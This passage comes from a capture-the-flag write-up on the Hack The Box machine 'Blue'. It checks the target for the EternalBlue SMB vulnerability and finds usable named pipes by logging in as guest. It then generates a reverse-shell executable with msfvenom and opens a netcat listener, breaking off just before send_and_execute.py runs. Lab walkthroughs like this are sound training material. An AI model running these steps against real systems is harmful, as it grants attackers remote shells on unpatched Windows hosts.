```bash
$ python eternablue/checker.py blue.htb
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```

We are getting `STATUS_ACCESS_DENIED`. Let's try setting our username to `guest` in the script and see if it changes anything. 

```bash
$ cat eternalblue/checker.py
...
USERNAME = 'guest'
...

$ python eternalblue/checker.py blue.htb
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (64 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (64 bit)
browser: Ok (64 bit)
```

It seems there are 3 named pipes we can use and note that the machine is `64-bit`. Now we just need to prepare an executable that establishes a reverse shell connection back to us when executed. We can use msfvenom for this.

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

Now that is done, we setup our `nc` listener.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
```

Then finally we can exploit the vulnerability with `send_and_execute.py` and specifying our executable and the name of the named pipe we want to use. Remember to set the username to `guest` as well.
